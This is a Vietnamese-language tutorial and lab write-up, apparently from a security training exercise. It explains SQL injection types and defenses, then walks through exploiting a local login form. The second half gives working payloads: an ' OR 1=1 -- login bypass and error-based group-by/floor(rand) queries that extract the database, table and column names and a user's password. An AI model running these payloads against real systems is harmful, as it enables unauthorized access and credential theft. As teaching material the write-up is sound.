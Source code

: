 # Tìm hiểu SQL injection
## 1. SQL injection là gì?

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. 
Với SQL injection, hacker có thể truy cập một phần hoặc toàn bộ dữ liệu trong hệ thống. Trong nhiều trường hợp, hacker không chỉ đọc được dữ liệu mà còn có thể chỉnh sửa dữ liệu. Lúc này hacker có thể đăng nhập dưới vai trò admin, lợi dụng hệ thống, hoặc xoá toàn bộ dữ liệu khiến hệ thống ngừng hoạt động.

## 2. Các dạng tấn công SQL injection

![](https://i.imgur.com/jIHZycb.png)

### 2.1. In-band SQLi

In-band SQL injection là kiểu tấn công SQL injection phổ biến và dễ khai thác nhất. In-band SQLi xảy ra khi kẻ tấn công sử dụng cùng một kênh liên lạc để khởi động các cuộc tấn công và thu thập kết quả. 
Hai loại phổ biến nhất của In-band SQLi là Error-based SQLi và Union-based SQLi.
* Error-based: kẻ tấn công thực hiện inject các câu truy vấn lỗi thông qua input, sau đó dựa vào những thông báo lỗi này để thu thập thông tin về cấu trúc DB.
* Union-based: kẻ tấn công lợi dụng toán tử UNION để thu thập thông tin về DB.

### 2.2. Inferential (Blind) SQLi

Thông tin về cơ sở dữ liệu không được hiển thị với người dùng nên kẻ tấn công phải gửi payload và thu thập thông tin thông qua các response.
Blind SQLi thường mất nhiều thời gian để khai thác hơn các dạng SQLi khác.
Có hai loại Blind SQLi là Time-based và Boolean-based.
* Time-based: Hacker sẽ gửi một truy vấn SQL, làm cho DB đợi (trong vài giây) trước khi có thể hoạt động. Sau đó, hacker có thể xem thời gian DB cần để phản hồi, một truy vấn là đúng hay sai. Dựa trên kết quả, một HTTP repsonse sẽ được tạo ra. Vì vậy hacker có thể tìm ra thông báo mà chúng đã sử dụng trả về đúng hay sai, không cần dựa vào dữ liệu từ DB.
* Boolean-based: Hacker gửi một truy vấn SQL đến DB, làm ứng dụng trả về một kết quả. Kết quả có thể khác nhau tùy vào truy vấn đúng hay sai. Dựa vào đó, kẻ tấn công điều chỉnh câu truy vấn để khai thác.

### 2.3. Out-of-band SQLi
 
Out-of-band SQL Injection không phổ biến lắm, chủ yếu là do nó phụ thuộc vào các tính năng được bật trên máy chủ cơ sở dữ liệu đang được ứng dụng web sử dụng.
Phương thức tấn công này sử dụng một cấu trúc truy vấn SQL để yêu cầu sever trả về kết quả thông qua các kênh liên quan đến mạng.

## 3. Cách phòng chống SQLi

* **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. 
* **Không cộng chuỗi để tạo SQL:** Sử dụng parameter thay vì cộng chuỗi. 
* **Không hiển thị exception, message lỗi:** Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* **Phân quyền rõ ràng trong DB:** Nếu chỉ truy cập dữ liệu từ một số bảng, nên tạo một account trong DB và gán quyền truy cập cho account đó. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* **Backup dữ liệu thường xuyên:** Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được. 

___

# Khai thác SQL injection

## 1. Khai thác Error-based 

Khi nhập `' OR 1=1 -- ` vào ô username, em nhận được thông báo đăng nhập thành công nên ở đây dính SQLi.

![](https://i.imgur.com/9G1I2t0.png)

Khi nhập vào đây một câu truy vấn lỗi syntax thì sẽ có thông báo lỗi hiện ra. Đây là dấu hiệu của error-based.

![](https://i.imgur.com/cJjElxV.png)

Để lấy được tên cơ sở dữ liệu, em tạo ra một payload dựa trên `Duplicate entry for key 'group_key'`. 
**Payload:**`' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `
`floor(rand(0)*2)`: Sinh ra 0 hoặc 1 để nối với tên database phía trước. Điều này chắc chắn tạo ra một group_key bị trùng, chậm nhất là ở lần thứ ba.

![](https://i.imgur.com/dhSyED7.png)

Như vậy, em tìm được tên cơ sở dữ liệu là `kcsc`.
Lúc này, em tạo một payload tương tự để tìm tên bảng.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc'),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/kWFYSdV.png)

Ở đây, em thấy xuất hiện lỗi `Subquery returns more than 1 row in C:\xampp\htdocs\KCSC-train\task_1\login.php:28`. Điều này do cơ sở dữ liệu có nhiều hơn 1 bảng. Vậy để tìm ra tên bảng, em cần thêm `limit 0,1` vào payload để lấy ra tên bảng đầu tiên trong DB.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/G9WyOX4.png)

Ở đây, em biết được tên bảng đầu tiên là `task1`.
Tương tự, thay `limit 1,1`, em có tên bảng thứ hai là `upload`. 
Tăng lên `limit 2,1` em thấy không hiển thị lỗi nữa. Vậy DB này có 2 bảng là `task1` và `upload`. 
Tiếp theo, em khai thác thông tin ở bảng `task1`.
Bằng cách như trên, em cũng tìm ra được tên các cột trong bảng.
**Payload:** `' or 1=1 group by concat((select column_name from information_schema.columns where table_name='task1' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `.

![](https://i.imgur.com/h9UAKCh.png)

![](https://i.imgur.com/AxIr78R.png)

![](https://i.imgur.com/BUQ2qvP.png)

Vậy bảng `task1` có 3 cột lần lượt là: `id`, `username`, `password`.
Bây giờ, để lấy dữ liệu từ bảng, em truyền payload như sau:
**Payload lấy id:**`' or 1=1 group by concat((select id from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy username:**`' or 1=1 group by concat((select username from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy password:**`' or 1=1 group by concat((select password from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/IFG4Swc.png)

![](https://i.imgur.com/U32xc1N.png)

![](https://i.imgur.com/68b7wch.png)

Em đã có được thông tin người dùng đầu tiên như sau:
> id: 22
> username: Cuc
> password: cuc

Muốn lấy thông tin những người dùng còn lại, ta làm tương tự như trên và thay bằng `limit 1,1`, `limit 2,1`,...